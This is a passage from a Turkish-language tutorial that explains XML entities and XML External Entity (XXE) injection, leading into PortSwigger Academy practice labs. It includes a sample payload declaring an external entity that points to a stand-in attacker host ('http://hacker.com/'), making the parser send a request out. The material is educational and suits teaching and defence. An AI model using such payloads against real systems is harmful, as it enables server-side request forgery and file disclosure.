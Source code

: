 Buradan hareketle artık XML yapımızı şu şekilde güncelleyelim;

burada artık “writer” ile referans verdiğimiz yerde “Donald Duck” yazılacaktır.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM [<!ENTITY writer "Donald Duck.">]>
<note>
<to>&writer;</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```

Tüm bu feature’ların ve özelliklerin yanında ENTITY, SYSTEM operandına erişime sahiptir. Dolayısıyla şu şekilde bir şey yapabiliriz artık;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM [<!ENTITY writer SYSTEM "http://hacker.com/">]>
<note>
<to>&writer;</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```

![Untitled](0x07%20917a98c84a5f488a9c368d1849e78f6f/Untitled%202.png)

Artık iş bu noktaya geldiğinde ise hacker bakış açısıyla bir şeyler yapmaya başlayabiliriz. Burada artık xml parser verilen siteye GET request’i iletir.

PortSwigger Academy LabsArtık öğrendiklerimizi pekiştirmek için portswigger’ın hazırladığı lab ortamlarını kullanarak pratik yapabiliriz. XXE için hazırlanan lab’ları burada bulabilirsiniz.

## **Lab: Exploiting XXE using external entities to retrieve files**

İlk lab ortamımızda pratik yapmaya başlayalım. Öncelikle bize bu lab hakkında temel bilgiler verilmektedir.
